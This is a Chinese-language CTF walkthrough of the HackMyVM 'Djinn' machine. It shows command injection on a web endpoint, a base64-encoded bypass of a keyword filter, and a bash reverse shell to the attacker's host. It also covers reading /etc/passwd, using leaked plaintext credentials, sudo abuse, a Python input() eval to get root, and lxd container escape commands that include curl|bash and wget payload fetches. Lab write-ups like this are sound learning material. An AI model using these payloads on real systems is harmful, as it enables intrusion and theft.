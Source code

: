 # Djinn

2025.02.15 https://hackmyvm.eu/machines/machine.php?vm=Djinn

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
1337/tcp open  waste
7331/tcp open  swx
```

ftp 可以匿名登陆，将其内容全部下载后查看。

```
nitu:81299

oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the
final level and get the prize.

@nitish81299 I am going on holidays for few days, please take care of all the work.
And don't mess up anything.
```

说 1337 端口上有一个游戏，使用 nc 进行连接，发现是个计算游戏，但是好像没看出什么漏洞，估计是个兔子洞。

在看 7331 这个端口，是个 web 页面，源码中也没什么信息，使用 gobuster 进行扫描，发现了 http://192.168.5.40:7331/wish 这里实现命令执行：

```
curl --data-urlencode "cmd=whoami" http://192.168.5.40:7331/wish
```

直接在 kali 上建立监听，然后执行反弹：

```
nc -lvnp 8888
curl --data-urlencode "cmd=/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'" http://192.168.5.40:7331/wish
```

这里不能执行，显示 Wrong choice of words 应该是后台有过滤，需要绕过，尝试用 base64 进行绕过：

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish

root:x:0:0:root:/root:/bin/bash
sam:x:1000:1000:sam,,,:/home/sam:/bin/bash
nitish:x:1001:1001::/home/nitish:/bin/bash
```

```
curl --data-urlencode "cmd=echo Y2F0IC9ldGMvcGFzc3dk|base64 -d|bash" http://192.168.5.40:7331/wish
```

对下面的代码进行 base64：

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'

L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==
```

然后执行：

```
curl --data-urlencode "cmd=echo L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC41LjMvODg4OCAwPiYxJw==|base64 -d|bash" http://192.168.5.40:7331/wish
```

这时在 kali 上得到了反弹的 shell：

```
www-data@djinn:/opt/80$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

然后发现了一个用户登陆凭据：

```
www-data@djinn:/home/nitish$ cat .dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

su 切换到 nitish 用户，得到了 user flag：

```
nitish@djinn:~$ cat user.txt
HMV{WW91IGZvdW5kIHRoZSBmaXJzdCBzdGVw}
```

sudo -l 发现 (sam) NOPASSWD: /usr/bin/genie 可以直接提权到 sam 用户：

```
sudo -u sam /usr/bin/genie -c 'curl http://192.168.5.3/5-3/8888.sh|bash'
```

但是出现提示：Pass your wish to GOD, he might be able to help you. 应该是有过滤。尝试找到更多的命令帮助 man genie 发现了一个参数 -cmd ：

```
-cmd
You know sometime all you new is a damn CMD, windows I love you.
```

sudo -u sam genie -cmd whoami 执行后，得到了 sam 权限，sudo -l 发现另外的命令： (root) NOPASSWD: /root/lago , 但是没有执行权限。

发现 sam 用户属于 lxd 用户组，想着借助 lxd 提权，但是提示有问题：

```
Error: Unable to read the configuration file: open /home/nitish/.config/lxc/config.yml: permission denied
```

发现在 sam 目录中有一个 .pyc 文件，将其反编译，得到源码：

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 2.7

from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'

if __name__ == '__main__':
    main(options())
```

sudo -l 发现 (root) NOPASSWD: /root/lago ，先尝试执行：

```
sudo -u root /root/lago
```

发现程序显示的内容和上面的 pyc 代码反编译出来的一致，找到执行逻辑，发现 guessit() 可以执行命令，输入 2 和 num 直接得到了 root 权限：

```
sam@djinn:/home/sam$ sudo -u root /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:2
Choose a number between 1 to 100:
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
lago  root.txt
# cat root.txt
HMV{eWVzIHlvdSBhcmUgY29vbA==}
```

```
find / -name lxc 2>/dev/null

cd /tmp

wget http://192.168.5.3/scripts/lin/lxc/alpine-v3.13-x86_64-20210218_0139.tar.gz

/usr/bin/lxc image import /tmp/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage

/usr/bin/lxc image list

/usr/bin/lxc init lxcimage ignite -c security.privileged=true  # 这句话执行时会报错，提示先创建pool，就按照下面代码继续执行

/usr/bin/lxc storage create pool dir
/usr/bin/lxc profile device add default root disk path=/ pool=pool
/usr/bin/lxc init lxcimage ignite -c security.privileged=true
/usr/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/usr/bin/lxc start ignite
/usr/bin/lxc exec ignite /bin/sh
```
